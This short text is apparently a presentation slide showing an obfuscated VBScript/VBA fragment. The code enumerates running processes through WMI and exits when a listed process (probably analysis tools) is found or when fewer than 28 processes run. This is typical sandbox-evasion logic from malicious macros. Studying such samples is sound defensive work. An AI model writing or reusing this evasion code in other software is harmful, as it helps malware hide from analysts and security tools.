

# numb() - FS_PROCESS - check processes
Set setupService = GetObject("winmgmts:\\.\root\cimv2")
Set judiciouslItems = setupService.ExecQuery("Select * from Win32_Process")
    For Each inhwg In judiciouslItems
   	 BgId = BgId + 1
   	 For Each GOx In Brenner
   		 If inhwg.Name = GOx Then
   			 GewqX("DEBUG: FS_PROCESS - False")
   			 GewqX("DEBUG: FS_PROCESSCOUNT - Terminated")
   			 Ldj
   		 End If
   	 Next
    Next
    GewqX("DEBUG: FS_PROCESS - True")
    If (BgId < 28) Then
   	 GewqX("DEBUG: FS_PROCESSCOUNT - False")
   	 Ldj
    End If